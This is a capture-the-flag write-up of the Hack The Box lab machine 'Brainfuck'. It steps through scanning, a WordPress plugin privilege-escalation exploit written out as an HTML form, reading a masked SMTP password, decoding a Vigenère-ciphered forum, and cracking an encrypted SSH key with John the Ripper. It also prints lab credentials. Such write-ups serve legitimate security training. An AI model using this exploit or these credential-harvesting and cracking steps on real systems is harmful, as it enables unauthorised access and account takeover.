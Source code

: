 # Brainfuck

This is the write-up for the box Brainfuck that got retired at the 26th August 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.17    brainfuck.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/brainfuck.nmap 10.10.10.17
```

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP UIDL RESP-CODES USER PIPELINING AUTH-RESP-CODE CAPA
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: SASL-IR ENABLE LOGIN-REFERRALS IMAP4rev1 more capabilities IDLE ID Pre-login LITERAL+ listed have AUTH=PLAINA0001 OK post-login
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTPS (Port 443)

The Nmap output gives us a subdomain with an interesting name that we will put into our hosts file, too.
Browsing to the web page on the IP address gives us a default nginx installation page.

Browsing to the web page with the DNS name _brainfuck.htb_ gives us a custom WordPress site of the fictional company **Brainfuck Ltd.** with one article that has an email address in it.
> orestis@brainfuck.htb

![WordPress page](brainfuck_wordpress-1.png)

Enumerate WordPress:
 ```markdown
wpscan --url https://brainfuck.htb --disable-tls-checks
```

The version is 4.7.3 and it found the users _admin_ and _administrator_ and the plugin **WP Support Plus Responsive Ticket System version 7.1.3** is installed.
Looking for vulnerabilities in this plugin we find one:
 ```markdown
searchsploit "WP Support Plus"
```

The vulnerability is called _WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation_ and we modify the exploit code to our needs:
 ```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

We can host this on the _Python SimpleHTTPServer_ and click Login on the form. This will set the session cookies to administrative session cookies and we get logged in on the WordPress page as _admin_.

![WordPress Admin page](brainfuck_wordpress-2.png)

To get code execution in WordPress we can go into _Appearance --> Editor_ and edit the PHP files normally but in this case, all the files are not writable, so this will not work.

As the first article on the page mentioned that SMTP integration is ready, we can look into those settings in _Settings --> Easy WP SMTP_.
In here we get the SMTP username that we got before and a masked password. The masked password can be read by looking at the field with the Developer Tools in the browser:

![WordPress Admin page](brainfuck_wordpress-3.png)

These are the credentials for SMTP:
> orestis:kHGuERB29DNiNE

## Checking SMTP (Port 25)

We can use any mail client to connect to the mail server _brainfuck.htb_ with the gathered credentials.
After configuring the mail client we can see the inbox of _Orestis_ and he has two emails. The mail from _root@brainfuck.htb_ is very interesting because there are credentials for a secret forum:

![WordPress Admin page](brainfuck_mails.png)

```markdown
username: orestis
password: kIEnnfEKJ#9UmdO
```

## Checking the Subdomain on HTTPS (Port 443)

Browsing to the subdomain _sup3rs3cr3t.brainfuck.htb_ we are presented with a **Super Secret Forum** where we can try the gathered credentials.
They work and there are two threads to examine:

The first thread is called **SSH Access** and it tells us that SSH authentication only works with keys.

![WordPress Admin page](brainfuck_forum-1.png)

The second thread is called **Key** and is the encrypted thread that _Orestis_ is talking about:

![WordPress Admin page](brainfuck_forum-2.png)

They write in a decoded type of language that looks like some kind of cipher that involves the alphabet because there are still whitespaces and numbers like the IP address are not decoded.

### Decoding the messages

Our clue for decoding is that _Orestis_ always ends his messages with the signature _"Orestis - Hacking for fun and profit"_. This is the same method that was used to decipher the **Enigma**.

The [One Time Pad Tool from Rumkin](http://rumkin.com/tools/cipher/otp.php) will help us to get the key.

```markdown
Plaintext: Orestis - Hacking for fun and profit
Encrypted: Pieagnm - Jkoijeg nbw zwx mle grwsnn
```

By comparing the letters and putting them into the tool one by one we get the key.
```markdown
# Decrypt

Your message:  P i e a g n m J k o i j e g n b w z w x m l e g r w s n n
The pad:       O r e s t i s H a c k i n g f o r f u n a n d p r o f i t
------------------------------------------------------------------------
Key:           B r a i n f u c k m y b r a i n f u c k m y b r a i n f u
```

The key we can decode the text with is:
> fuckmybrain

Now we can use the [Keyed Vigenere Tool from Rumkin](http://rumkin.com/tools/cipher/vigenere-keyed.php) to decode the messages:

![WordPress Admin page](brainfuck_forum-3.png)

This is the most important message:

![WordPress Admin page](brainfuck_forum-4.png)

Lets browse to the URL https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa and download the _id_rsa_ file.

### Decrypting the RSA key

If we look at the RSA key that we got, it is _AES-128-CBC_ encrypted and we need to decrypt it first:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382
```

We can use [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) to bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

And then use the password cracking tool **JohnTheRipper** to crack it:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After some time we cracked the password for this key:
> 3poulakia!

## Checking SSH (Port 22)

Now SSH login works with the private key and the password:
```markdown
chmod 600 id_rsa

ssh -i id_rsa orestis@10.10.10.17
```

## Privilege Escalation

In the home folder of _Orestis_ there are these three files:
- debug.text
- output.text
- encrypt.sage

Looking at the _encrypt.sage_ file, we can see that it calculates something with the variables **p, q, e, n phi**.
Those are usually used in **RSA Encryption**, so this is some kind of RSA attack.

In this repository there is the script **brainfuck_decrypt.py** that uses the variables from those files to calculate the key.
The 3 lines in _debug.txt_ are the variables for p, q and e.
The number in _output.txt_ is the variable for ct.
```markdown
python brainfuck_decrypt.py
```

After running this, we get the value for pt which stands for Plaintext:
> 24604052029401386049980296953784287079059245867880966944246662849341507003750

This has to get converted into ASCII so we can read it.
```python
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
str(hex(pt)[2:-1]).decode('hex')
```

The result is a 32 character long string, which is probably a **MD5 hash**.
This MD5 hash is the content of the root.txt flag!
